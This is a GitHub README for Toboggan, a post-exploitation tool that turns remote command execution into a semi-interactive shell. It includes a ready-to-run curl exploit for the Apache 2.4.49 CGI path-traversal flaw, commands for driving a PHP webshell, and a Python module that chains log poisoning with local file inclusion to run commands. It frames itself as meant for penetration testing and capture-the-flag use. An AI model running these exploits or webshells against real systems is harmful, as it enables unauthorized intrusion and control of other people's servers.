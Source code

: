 # Toboggan

<p align="center">
    <img width="200" src="/media/toboggan-coin.jpg" alt="Material Bread logo">
</p>


🛝 Slide into post-exploitation from RCE with ease! Toboggan is your go-to tool that wraps your remote command execution into a semi-interactive shell, making the post-exploitation phase a breeze.


Getting started with toboggan is as smooth. You can do this by pulling directly from the repository:
```shell
python3 -m pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
``` 

Or, by using [`pipx`](https://pypa.github.io/pipx/) - and you should -, give this a whirl:
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

Thus, you can execute it with the following command:
```shell
toboggan -m /path/to/your/rce.py -i
```

This command loads your rce.py module and propels you into an interactive session for some remote fun. If you're in the mood for a subtler, semi-interactive experience, just drop the `-i` option.

## Built-in modules
### WebShell
Don't have a proper Python3 module on hand? Struck gold with a simple webshell.php? No worries! If your webshell just needs a cmd argument to spill the beans, do the following:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd'
```

Safety first. Always password-protect your shells. If you're the cautious type (and you should be), use Toboggan like this:
```shell
toboggan -u 'http://192.168.193.19/tmp/webshell.php?cmd' -p 'password'='@l/=$,dsfsdfm'
```

### System command
If it's a waste of time for you to build a python3 module because you don't like programming, and the vulnerability is easily exploitable with a command line, don't worry, you can use the `-o` or `--os` parameter and pass your command line with the `||cmd||` placeholder. For example, if you encounter a server running with `Apache httpd 2.4.49`, you can directly use:
```shell
toboggan -o 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

## `rce.py` module
An RCE (Remote Code Execution) Python3 module is essentially a Python3 source code crafted to manage your remote code execution. For a module to be compatible with Toboggan, it **must** include a method named **execute**. This method **should have two parameters**: command of type str and timeout of type float.

Here's an example of an RCE module that leverages Log Pollution combined with Local File Inclusion. Admittedly, it's a bit pesky to replay:
```python
# Buit-in imports
import re

# Third party library imports
import httpx

def execute(command: str, timeout: float = None) -> str:
    # Remove the User-Agent header
    response = httpx.get(
        url="http://beachvolley/pong/index.php",
        params={
            "page": r"\..\..\..\..\..\..\..\..\..\..\\xampp\apache\logs\access.log",
            "cmd": command,
        },
        headers={
            "User-Agent": ""
        },
        # ||BURP||
        timeout=timeout,
        verify=False,
    )

    # Check if the request was successful
    response.raise_for_status()

    if match := re.search(
        pattern=r'\|\|START_CMD\|\|(.+?)\|\|END_CMD\|\|',
        string=response.text,
        flags=re.IGNORECASE | re.DOTALL
    ):
        return match.group(1).strip()
```

Remember, this setup is module-dependent. For instance, if your module necessitates `proxychains`, you can effortlessly invoke `toboggan` as shown below:
```shell
proxychains -q toboggan /path/to/your/rce.py
```

### Interactivity methods used

#### Unix
The Unix environment offers a plethora of inter-process communication (IPC) mechanisms. One such fascinating tool is the mkfifo, colloquially known as a "named pipe". This one-way IPC is often a go-to when one wishes to emulate a remote interactive shell session over an inherently non-interactive medium - think HTTP requests or rudimentary command execution interfaces.

At its heart, a named pipe, or FIFO (First In, First Out), is an avenue to smoothly transition through an RCE in restrictive scenarios, such as those barricaded behind firewalls, making it feel almost like you're operating in a pseudo-TTY.

**Why the insistence on a separate polling thread**? Imagine sending a command with an indefinite waiting period (like the notorious `top` or the sluggish `sleep 10000`). Without a distinct thread to handle these, the main application would be ensnared in a deadlock, patiently awaiting the command's conclusion. Enter the read thread. Its primary role is to juggle the outputs of these prolonged commands, ensuring the main loop is unimpeded and ever-ready for fresh input or commands.

#### Windows
Not done yet

## Contributing

`toboggan` is an open-source project, and I welcome contributions. Feel free to submit issues, feature requests, or pull requests on the GitHub repository. In order to create a Pull Request, you can follow those steps:
- Fork the project
- Create your feature branch (`git checkout -b my-new-feature`)
- Commit your changes (`git commit -Sam 'Added some feature'`)
- Push to the branch (`git push origin my-new-feature`)
- Create new **Pull Request**

### Setup

Recommended way for developping inside this project is by using `poetry`. Once this repository cloned, you just have to type `poetry shell` to get your environment ready. 

### Test your implementation
If you want to create a `pipx` special installation, you can do the following command inside the root of the project:
```shell
pipx install . --suffix '-test'
```

### Building a proper `pip` package
If you want to try building the tool with a real package, you firstly run `poetry build` and then:
```shell
python3 -m pip install dist/toboggan*.whl --force-reinstall
```

---

_N.B._ If you really want to use old maneers, you can still create a `requirements.txt` file using the following `poetry` commands:
```shell
poetry export -f requirements.txt > requirements.txt
```

## Disclaimer
Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.

## License
This project is licensed under the MIT License. See the LICENSE file for more details.
